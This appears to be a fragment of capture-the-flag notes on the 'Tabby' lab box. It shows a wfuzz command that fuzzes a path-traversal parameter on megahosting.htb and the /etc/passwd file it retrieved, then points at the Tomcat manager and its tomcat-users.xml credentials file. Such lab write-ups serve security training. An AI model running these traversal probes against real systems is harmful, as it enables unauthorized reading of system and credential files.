 ![[/assets/images/tabby9.png]]
# Fuzzing for LFI
```sh
wfuzz -c -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hw 0 http://megahosting.htb/news.php?file=../../../../../../../FUZZ
```

![[/assets/images/tabby11.png]]

/etc/passwd
```sh
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
tomcat:x:997:997::/opt/tomcat:/bin/false
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
ash:x:1000:1000:clive:/home/ash:/bin/bash
```

## 8080-HTTP
# Screenshots
![[/assets/images/tabby1.png]]
## Manager
![[/assets/images/tabby2.png]]
Click cancel
![[/assets/images/tabby12.png]]
please examine the file `conf/tomcat-users.xml` in your installation
